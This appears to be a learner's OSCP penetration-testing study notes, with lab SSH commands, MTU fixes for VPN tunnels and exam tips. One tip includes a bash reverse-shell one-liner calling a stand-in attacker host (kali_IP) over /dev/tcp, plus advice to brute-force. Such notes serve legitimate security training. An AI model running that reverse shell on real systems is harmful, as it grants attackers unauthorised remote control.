 # 🎯 OSCP


```
ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" learner@192.168.50.52
```


[_Try Harder_](https://www.offsec.com/offsec/what-it-means-to-try-harder/) mindset. To better understand this mindset, let's quickly consider two potential perspectives in a moment of "failure."

1. If my attack or defense fails, it represents a truth about my current skills/processes/configurations/approach as much as it is a truth about the system.
2. If my attack or defense fails, this allows me to learn something new, change my approach, and do something differently.

Do exercise before or after study!

---------

**MOST IMP**

```
sudo ip l s dev tun0 mtu 1300
```


------

1. always check http and https both for same site
2. check local ports after getting initial shell
3. **payload all the things** have it ALL!
4. do brute force if nothing works
5. if SSH stuck, try to lower MTU and it will works `sudo ifconfig tun0 mtu 1200`
6. whenever you run exploit and
	- it gives error when you provide required field, then look at code because you need to change input to take as binary with help of `b(SNIP)`
	- if its **RCE** and still don't work then use ping first with exploit. Example, `ping -c 1 $tun0_IP` and if it works then start nc and take shell with `'/bin/bash -c "/bin/bash -i &> /dev/tp/kali_IP/443 0>&1"'`

Try https://unix.stackexchange.com/questions/722954/ssh-stuck-at-expecting-ssh2-msg-kex-ecdh-reply or https://serverfault.com/questions/210408/cannot-ssh-debug1-expecting-ssh2-msg-kex-dh-gex-reply
